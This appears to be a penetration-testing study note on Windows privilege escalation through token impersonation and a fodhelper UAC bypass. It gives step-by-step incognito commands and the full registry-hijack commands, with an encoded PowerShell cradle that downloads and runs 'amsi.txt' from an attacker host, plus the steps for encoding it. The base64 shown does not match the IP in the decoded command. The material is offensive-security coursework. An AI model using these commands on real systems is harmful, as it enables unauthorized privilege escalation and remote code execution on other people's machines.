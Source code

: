 **IMPERSONATION:**

If you want to leverage the "SeImpersonatePrivilege", please refer to this [script](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/Windows%20Credentials/PrintSpooferNet.cs), which is used in conjuction with [SpoolSample](https://github.com/leechristensen/SpoolSample).

However if you want to impersonate already logged in users, you can use [incognito](https://www.offsec.com/metasploit-unleashed/fun-incognito/)(through a meterpreter session) or this [powershell script](https://github.com/clymb3r/PowerShell/tree/master/Invoke-TokenManipulation).

**IMPORTANT NOTE TO TAKE IN MIND WHEN IMPERSONATING LOGONS:**  

What does matter is the logon type used to create the logon token. If a user connects using Network Logon (aka type 3 logon), the computer will not have any credentials for 
the user. Since the computer has no credentials associated with the token, it will not be possible to authenticate off-box with the token. All other logon types
should have credentials associated with them (such as Interactive logon, Service logon, Remote interactive logon, etc).

There are two types of tokens: delegate and impersonate. Delegate tokens are created for ‘interactive’ logons, such as logging into the machine or connecting to it via Remote Desktop. Impersonate tokens are for ‘non-interactive’ sessions, such as attaching a network drive or a domain logon script.
The other great things about tokens? They persist until a reboot. When a user logs off, their delegate token is reported as an impersonate token, but will still hold all of the rights of a delegate token.

TIP: File servers are virtual treasure troves of tokens since most file servers are used as network attached drives via domain logon scripts

(credit to Offsec and clymb3r for this awsome theory explanation).

**Incognito usage:**

Review this link: https://www.offsec.com/metasploit-unleashed/fun-incognito/

But in a nutshell these are the steps to take:

```
1st Migrate to a procces owned by the user we want to impersonate
2nd load incognito
3rd list_tokens -u
4th impersonate_token DEV\\trike   -> for example
5th shell or execute -f cmd.exe -i -t
```

**Invoke-TokenManipulation usage:**

Review its manual specified as comments at the first lines of the script, and this [link](https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/) that contains an overview on tokens and Windows authentication, An overview of what the script does, and problems/solutions encountered when building it and a demonstration of the script.

**UAC BYPASS IMPROVEMENT:**

In order to perform an UAC bypass, we must be as a user who is in the local "Administrators" group.

From powershell throw this commands:

```
1. New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe -enc SQBFAFg...” -Force
2. New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyTypeString -Force
3. Execute fodhelper.exe -> if you are in a x86 process: c:\windows\sysnative\cmd.exe /c c:\windows\system32\fodhelper.exe
						             -> if you are in a x64 process: c:\windows\system32\fodhelper.exe
						
The base64 powershell encoded string was -> IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/amsi.txt')

Encoding a base64 powershell command from linux:

~# pwsh
❯ pwsh
PowerShell 7.2.1
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

   A new PowerShell stable release is available: v7.3.4 
   Upgrade now, or check out the release page at:       
     https://aka.ms/PowerShell-Release?tag=v7.3.4       

Welcome to Parrot OS 

┌[trike@root]-[11:11-12/07]-[/home/trike]
└╼$ $text = "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/amsi.txt')"
┌[trike@root]-[11:11-12/07]-[/home/trike]
└╼$ $bytes = [System.Text.Encoding]::Unicode.GetBytes($text)                                   ┌[trike@root]-[11:11-12/07]-[/home/trike]
└╼$ $EncodedText = [Convert]::ToBase64String($bytes)                                           ┌[trike@root]-[11:11-12/07]-[/home/trike]
└╼$ $EncodedText                                                                              SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADUALwBhAG0AcwBpAC4AdAB4AHQAJwApAA==
┌[trike@root]-[11:11-12/07]-[/home/trike]
└╼$ 
```

Additionally to this techniques I would recomend you to use the [WinPeas](https://github.com/carlospolop/PEASS-ng/) script in order to enumerate other posible privilege escalation avenues.
